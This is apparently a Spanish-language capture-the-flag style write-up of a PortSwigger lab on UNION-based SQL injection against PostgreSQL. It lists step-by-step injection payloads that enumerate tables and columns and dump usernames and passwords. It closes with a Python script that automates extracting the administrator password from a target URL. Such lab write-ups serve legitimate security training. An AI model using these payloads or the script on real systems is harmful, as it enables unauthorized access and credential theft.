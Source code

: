 ```yaml
---
title: "09 SQL injection attack, listing the database contents on non Oracle databases"
collection: publications
category: portswigger
permalink: publications/SQLi/09_SQL injection attack, listing the database contents on non Oracle databases
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo de categoría de producto. Para resolver el laboratorio, realizamos un ataque de inyección SQL basado en UNION en una base de datos PostgreSQL que recupera los nombres de usuario y las contraseñas de todos los usuarios de la aplicación.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQL injection attack, listing the database contents on non Oracle databases'
---
```


![logo]({{site.url}}/images/SQLi/sqli-9/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-9/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, inicia sesión como usuario administrador.

## Determinamos que el campo si es vulnerable

```javascript
' or 1=1--
```

![Vulnerable]({{site.url}}/images/SQLi/sqli-9/vulnerable.png)

## Determinar el numero de columnas retornadas por la consulta

Miramos la cantidad decolumnas retornar hasta que arroje error. Vemos que nos arroja 2 columnas.

```javascript
' ORDER BY 1--
' ORDER BY 2--
```

![Order by]({{site.url}}/images/SQLi/sqli-9/order by.png)

## Miramos que columna es de tipo 'String'

Inyectamos en cada una de ellas mirando cual podemos inyectar 'String'

```javascript
' UNION SELECT 'A', NULL--
' UNION SELECT NULL, 'A'-- 
' UNION SELECT 'A', 'A'--
```

![String]({{site.url}}/images/SQLi/sqli-9/campo string.png)

## Miramos la versión de la BD

[Hoja de Trucos](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Es una BD Postgres SQL

![DB version]({{site.url}}/images/SQLi/sqli-9/version.png)

```javascript
' UNION SELECT version(), NULL --
```

![version]({{site.url}}/images/SQLi/sqli-9/Payload.png)

## Obtener el nombre de las tablas

Ya que conocemos el tipo de BD, debemos listar el nombre de las tablas.

```javascript
' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema='public'--
```

![Tablas]({{site.url}}/images/SQLi/sqli-9/tablas.png)

## Listamos las columnas

```javascript
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users_pzweot'--
```

```
username_jijzil
password_wjgcqi
```

![Columnas de la tabla]({{site.url}}/images/SQLi/sqli-9/columnas de la tabla.png)

## Listar username y password
Ya que conocemos las columnas de la tabla, debemos listarla. En esta ocación unimos en una sola columna

```javascript
' UNION SELECT NULL,username_jijzil || '*****' || password_wjgcqi FROM users_pzweot--
```

![Usuarios Passwords]({{site.url}}/images/SQLi/sqli-6/listado usuario y password.png)

## Procedemos a hacer el login

```
administrator
6rhx7r9m4iscbb2be39d
```

![login]({{site.url}}/images/SQLi/sqli-9/login.png)

## Solucionado

Solventado el laboratorio

![Aprobado]({{site.url}}/images/SQLi/sqli-9/aprobado.png)

# Codigo Python
```python
import requests
import sys
import urllib3 
from bs4 import BeautifulSoup
import re

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def perform_request(url, sql_payload):
    path = '/filter?category=Accessories'
    r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
    return r.text


def sqli_users_table(url):
    sql_payload = "' UNION SELECT table_name, NULL FROM information_schema.tables--"
    res = perform_request(url, sql_payload)
    soup = BeautifulSoup(res, 'html.parser')
    users_table = soup.find(text=re.compile('.*users.*'))
    if users_table:
        return users_table
    else:
        return False

def sqli_users_columns(url, users_table):
    sql_payload = "' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = '%s'--" % users_table
    res = perform_request(url, sql_payload)
    soup = BeautifulSoup(res, 'html.parser')
    username_column = soup.find(text=re.compile('.*username.*'))
    password_column = soup.find(text=re.compile('.*password.*'))
    return username_column, password_column

def sqli_administrator_cred(url, users_table, username_column, password_column):
    sql_payload = "' UNION select %s, %s from %s--" %(username_column, password_column, users_table)
    res = perform_request(url, sql_payload)
    soup = BeautifulSoup(res, 'html.parser')
    admin_password = soup.body.find(text="administrator").parent.findNext('td').contents[0]
    return admin_password

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: %s <url>" % sys.argv[0])
        print("[-] Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    print("Looking for a users table...")
    users_table = sqli_users_table(url)
    if users_table:
        print("Found the users table name: %s" % users_table)
        # step #5
        username_column, password_column = sqli_users_columns(url, users_table)
        if username_column and password_column:
            print("Found the username column name: %s" % username_column)
            print("Found the password column name: %s" % password_column)

            # step #6
            admin_password = sqli_administrator_cred(url, users_table, username_column, password_column)
            if admin_password:
                print("[+] The administrator password is: %s " % admin_password)
            else:
                print("[-] Did not find the administrator password.")
        else:
            print("Did not find the username and/or the password columns.")

    else:
        print("Did not find a users table.")
```